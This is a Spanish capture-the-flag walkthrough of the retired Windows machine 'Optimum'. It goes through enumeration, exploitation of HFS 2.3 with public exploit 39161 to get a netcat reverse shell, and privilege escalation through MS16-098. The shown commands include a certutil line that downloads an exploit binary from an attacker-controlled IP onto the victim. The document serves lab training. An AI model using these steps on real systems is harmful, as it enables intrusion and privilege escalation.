

# Optimum



**Índice**   
1. [Overview](#id1)
2. [Enumeración](#id2)
3. [Explotación](#id3)
4. [Priviledge Escalation](#id4)

#
## 1. Overview<a name="id1"></a>

|OS|Difficulty|Machine State|Vector|Priviledge Escalation|
|-|-|-|-|-|
|Windows|Easy|Retired|||


#
## 2. Enumeración<a name="id1"></a>

### 2.1 Nmap

* Se realiza un escaneo con **tcp port syns scan** jugando con el **min-rate** para emitir paquetes no mas lentos que 5000 paquetes por segundo. Durante el escaneo se aprecia que el puerto 80 está abierto, por lo que se utiliza **whatweb** para realizar un primer vistazo a la página.

* Whatweb revela que se trata de servicio HFS 2.3.

* Con searchexploit buscamos algun exploit vulnerable.

Nota: Buscar tanto por HFS como por sus HTTP File Server.


#
## 3. Explotación<a name="id2"></a>

### 3.1 HFS

* Se ejecuta el exploit localizado 39161. Viendo las instrucciones, es necesario compartir un nc.exe mediante un servicio HTTP. 

* El exploit es necesario ejecutarlo minimo 2 veces

```bash
python -m http.server
```

```bash
nc -lvnp
```


* Finalmente, se obtiene una shell como Kostas (usuario local)

#
## 4. Priviledge Escalation<a name="id2"></a>

* Se realiza una enumeracion inicial con el usuario kostas. En primer lugar, se ejecuta **systeminfo** para saber ante que estamos.

### 4.1 Windows-Exploit-Suggester

* La salida de **systeminfo** se puede incorpora en el scripts **Windows-Exploit-Sugester**.

* Este es un script que permite enumerar de forma rápida y pasiva ante que exploit es vulnerable la máquina.

* La salida revela que la máquina es vulnerable a MS16-098.


### 4.2 MS16-098

* La propia herramienta sumistra el enlace de exploit-db. 

* Para encontar un ejecutable, se recomienda utiliza el propio repositorio de offensive security, https://github.com/offensive-security/exploitdb-bin-sploits/tree/master/bin-sploits/[num_exploitdb].[ext].

* Una vez descargado se comparte el compilado con 

```bash
python -m http.server
``` 

* Desde la máquina víctima se ejecuta certutil.

```bash
certutil.exe -urlcache -f http://[IP]/[name_src].exe [name_dst].exe
```

https://www.ired.team/offensive-security/defense-evasion/downloading-file-with-certutil

